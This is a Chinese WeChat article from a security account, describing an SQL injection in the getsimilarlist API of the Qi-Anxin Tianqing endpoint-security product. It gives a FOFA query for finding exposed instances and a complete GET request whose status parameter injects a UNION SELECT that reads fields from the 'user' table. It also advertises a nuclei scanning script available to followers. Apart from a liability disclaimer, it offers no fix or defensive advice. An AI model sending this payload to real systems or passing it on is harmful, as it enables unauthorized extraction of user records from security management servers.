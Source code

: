 #  奇安信 天擎getsimilarlist SQL注入

原创 天澜实验室 [ 天澜实验室 ](javascript:void\(0\);)

**天澜实验室** ![]()

微信号 gh_c5fea27198a7

功能介绍 观水有术，必观其澜！
专注于感知国内外常见系统的漏洞态势，对漏洞进行分析、复现、武器化形成。涵盖漏洞复现、攻防演练、应急响应、工具开发等知识内容。秉承“没有网络安全就没有国家安全”的宗旨，热衷并服务于网络安全事业。

____

___发表于_

![]()

**请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。工具来自网络，安全性自测，如有侵权请联系删除。本次测试仅供学习交流使用，如若非法他用，与平台和本文作者无关，需自行负责！**

 **00**

 **漏洞概述**

![]()

奇安信 天擎 getsimilarlist接口存在SQL注入漏洞。

 **01**

 **空间搜索语法**

![]()

fofa

title="360新天擎"

![]()

 **02**

 **利用过程**

![]()

登录界面

![]()

getsimilarlist接口存在SQL注入漏洞。

  *   *   *   *   *   *   * 

    
    
    GET /api/client/getsimilarlist?status[0,1%29+union+all+select+%28%2F%2A%2150000select%2A%2F+79787337%29%2C+setting%2C+setting%2C+status%2C+name%2C+create_time+from+%22user%22+where+1+in+%281]=1&status[0]=1 HTTP/1.1Host: User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2866.71 Safari/537.36Connection: closeAccept-Encoding: gzip, deflate, br  
      
    

漏洞存在响应包如下。  

![]()

 **03**

 **nuclei**

![]()

![]()

获取脚本关注本公众号后发送：天擎1原创原创原创原创原创原创原创原创原创原创原创原创原创原创原创原创创原创原创  

✓

关注我们

预览时标签不可点

微信扫一扫  
关注该公众号

继续滑动看下一个

# 奇安信 天擎getsimilarlist SQL注入

原创 天澜实验室 [ 天澜实验室 ](javascript:void\(0\);)

轻触阅读原文

![]()

天澜实验室

向上滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看 分享 留言

